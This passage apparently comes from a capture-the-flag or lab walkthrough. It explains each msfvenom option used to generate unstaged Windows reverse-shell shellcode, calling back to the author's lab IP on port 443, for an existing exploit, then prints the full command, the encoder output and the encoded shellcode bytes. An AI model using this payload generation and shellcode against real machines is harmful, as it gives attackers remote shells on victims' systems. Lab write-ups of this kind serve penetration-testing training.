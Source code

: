 To make the shellcode, I'll use `msfvenom`. I'll copy the bad characters
list (`-b`) from the examples in the exploit code. I'll use the
following parameters:

-   `-p windows/shell_reverse_tcp` - This will connect back to me with a
    shell. Because I used `shell_reverse_tcp` it is unstaged, meaning
    the entire shell is in this code, and I can catch the callback with
    `nc`. Had I used `shell/reverse_tcp`, that would be a staged
    payload, and I'd need to use Metasploits `exploit/multi/handler` to
    get the callback.
-   `LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread` - defining the
    variables for the payload - my ip, the port, and how to exit.
-   `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` - The bad characters not to
    use. I got this from the comments in the python code.
-   `-f py` - Output in python format. The examples use c format, and
    just pasted it in slightly differently. Either will work.
-   `-v shellcode` - Have the code set the variable `shellcode`, instead
    of the default, `buf`. I want this to match what it's called in the
    code I'm using.
-   `-a x86` and `--platform windows` - Describing the environment I'm
    attacking.



    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
    Attempting to encode payload with 1 iterations of generic/none
    generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
    Attempting to encode payload with 1 iterations of x86/call4_dword_xor
    x86/call4_dword_xor succeeded with size 348 (iteration=0)
    x86/call4_dword_xor chosen with final size 348
    Payload size: 348 bytes
    Final size of py file: 1872 bytes
    shellcode =  ""
    shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
    shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
    shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
    shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
    shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
    shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
    shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
    shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
    shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
    shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
    shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
    shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
    shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
    shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
    shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
    shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
    shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
    shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
    shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
    shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
    shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
    shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
    shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
    shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
    shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
    shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
    shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
    shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"